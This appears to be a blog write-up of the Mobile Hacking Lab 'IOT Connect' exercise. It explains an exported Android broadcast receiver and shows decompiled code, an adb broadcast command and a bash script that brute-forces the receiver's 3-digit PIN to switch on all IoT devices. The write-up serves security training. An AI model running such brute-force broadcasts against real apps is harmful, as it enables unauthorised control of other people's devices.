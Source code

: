 ```yaml
---
layout: post
title: IOT Connect - Mobile Hacking Lab
color: rgb(51,122,183)
tags: [Mobile Hacking lab, Android Security]
comments: true
share: false
excerpt_separator: <!--more-->
---
```


The [IOT Connect](https://www.mobilehackinglab.com/course/lab-iot-connect) lab make us exploring a vulnerable broadcast receiver within an Android application, allowing interaction with IOT devices without permission. <!--more--> Let's go step by step to understand the vulnerability and how we can exploit such flaws.

### Introduction 

When we open the application, we are presented with a login and registration window. After registering and logging into the application, we have two buttons: the setup button, which allows us to individually connect to each device, and the master switch button, where we need to enter a PIN to connect all devices at once. However, since we don't know the PIN, let's examine the source code to understand how we can connect all devices at once.

### Static Analysis

We start by examining the Android manifest file, where we find a very interesting part, a receiver named `MasterReceiver` that is enabled and exported, meaning we can communicate with it from outside the application as long as it's running.

```xml
<!-- AndroidManifest.xml -->
...
<receiver android:name="com.mobilehackinglab.iotconnect.MasterReceiver" android:enabled="true" android:exported="true">
  <intent-filter>
      <action android:name="MASTER_ON"/>
  </intent-filter>
</receiver>
...
```

So what is a receiver? An [Android Receiver](https://developer.android.com/guide/topics/manifest/receiver-element) is a component that listens for system events or broadcast messages, responding to actions like incoming calls, SMS, or network changes, enabling apps to react even when not in use. In this case, the application is waiting for a broadcast called `MASTER_ON`.

Now let's see where the app is waiting for this Broadcast Receiver. It's inside the `CommunicationManager` class. Looking at the code, we can see that the application is expecting to receive a broadcast called `MASTER_ON` with extra data being an integer called `key`. If the application receives this intent with the correct key, all devices will be turned on simultaneously with a success popup. If we provide a wrong pin, we get a popup saying "Wrong Pin!"

```java
// CommunicationManager
package com.mobilehackinglab.iotconnect;

...
import kotlin.jvm.internal.Intrinsics;


public final class CommunicationManager {
    public static final CommunicationManager INSTANCE = new CommunicationManager();
    private static BroadcastReceiver masterReceiver;
    private static SharedPreferences sharedPreferences;

    private CommunicationManager() {
    }

    public final BroadcastReceiver initialize(Context context) {
        Intrinsics.checkNotNullParameter(context, "context");
        masterReceiver = new BroadcastReceiver() { // from class: com.mobilehackinglab.iotconnect.CommunicationManager$initialize$1
            @Override // android.content.BroadcastReceiver
            public void onReceive(Context context2, Intent intent) {
                if (Intrinsics.areEqual(intent != null ? intent.getAction() : null, "MASTER_ON")) {
                    int key = intent.getIntExtra("key", 0);
                    if (context2 != null) {
                        if (Checker.INSTANCE.check_key(key)) {
                            CommunicationManager.INSTANCE.turnOnAllDevices(context2);
                            Toast.makeText(context2, "All devices are turned on", 1).show();
                            return;
                        }
                        Toast.makeText(context2, "Wrong PIN!!", 1).show();
                    }
                }
            }
        };
        BroadcastReceiver broadcastReceiver = masterReceiver;
        if (broadcastReceiver == null) {
            Intrinsics.throwUninitializedPropertyAccessException("masterReceiver");
            broadcastReceiver = null;
        }
        context.registerReceiver(broadcastReceiver, new IntentFilter("MASTER_ON"));
        BroadcastReceiver broadcastReceiver2 = masterReceiver;
        if (broadcastReceiver2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("masterReceiver");
            return null;
        }
        return broadcastReceiver2;
    }

    public final void turnOnAllDevices(Context context) {
        Intrinsics.checkNotNullParameter(context, "context");
        Log.d("TURN ON", "Turning all devices on");
        turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_ONE_STATE_KEY, true);
        turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_TWO_STATE_KEY, true);
        turnOnDevice(context, ACFragment.AC_PREFERENCES, ACFragment.AC_STATE_KEY, true);
        turnOnDevice(context, PlugFragment.PLUG_FRAGMENT_PREFERENCES, PlugFragment.PLUG_STATE_KEY, true);
        turnOnDevice(context, SpeakerFragment.SPEAKER_FRAGMENT_PREFERENCES, SpeakerFragment.SPEAKER_STATE_KEY, true);
        turnOnDevice(context, TVFragment.TV_FRAGMENT_PREFERENCES, TVFragment.TV_STATE_KEY, true);
        turnOnDevice(context, BulbsFragment.BULB_FRAGMENT_PREFERENCES, BulbsFragment.BULB_STATE_KEY, true);
    }

    public final void turnOnDevice(Context context, String preferencesName, String stateKey, boolean defaultState) {
        Intrinsics.checkNotNullParameter(context, "context");
        Intrinsics.checkNotNullParameter(preferencesName, "preferencesName");
        Intrinsics.checkNotNullParameter(stateKey, "stateKey");
        SharedPreferences sharedPreferences2 = context.getSharedPreferences(preferencesName, 0);
        Intrinsics.checkNotNullExpressionValue(sharedPreferences2, "getSharedPreferences(...)");
        sharedPreferences = sharedPreferences2;
        SharedPreferences sharedPreferences3 = sharedPreferences;
        if (sharedPreferences3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("sharedPreferences");
            sharedPreferences3 = null;
        }
        SharedPreferences.Editor $this$turnOnDevice_u24lambda_u240 = sharedPreferences3.edit();
        $this$turnOnDevice_u24lambda_u240.putBoolean(stateKey, defaultState);
        $this$turnOnDevice_u24lambda_u240.apply();
    }
}
```

Looking at the `LoginActivity`, `HomeActivity`, and `MasterSwitchActivity` classes, we can see that they all register the broadcast receiver from the `CommunicationManager` class to wait for the intent. How can we communicate with this intent?

```java
// Registration of the broadcast
...
CommunicationManager.INSTANCE.initialize(this);
...
```

### Exploiting the Application

To test if the application receives our intent, all we have to do is open the app and run the following command from our terminal:

```bash
adb shell am broadcast -a MASTER_ON --ei key 123
```

Running this, we see the popup saying "Wrong Pin!!". From here, all we need to do is loop from 000 to 999, since the master switch activity states it is a 3-digit pin, to brute force turning on all devices without knowing the right pin.

So, we create the following bash script:

```bash
#exploit.sh
# Loop from 000 to 999
for ((i=0; i<=999; i++))
do
    # Pad the number with leading zeros
    key=$(printf "%03d" $i)
    
    # Send the broadcast with adb
    adb shell am broadcast -a MASTER_ON --ei key $key >/dev/null 2>&1
done

echo "Done Bruteforcing!"
```

Now all we have to do is run our script and wait.
```bash
bash exploit.sh
```

After seeing the message "Done Bruteforcing!" in our terminal, if we open the app, we can see that all devices have been turned on.

### Conclusion

This lab allows us to understand the concept of broadcast receivers within an Android application and how they can pose risks to the application. By exploiting this flaw, we can see that even an unauthenticated user can perform actions they shouldn't while having the application running on their phone. For a hands-on experience with these concepts, visit the lab at [MobileHackingLab - IOT Connect](https://www.mobilehackinglab.com/course/lab-iot-connect). Embark on a journey of discovery and bolster your expertise in mobile security.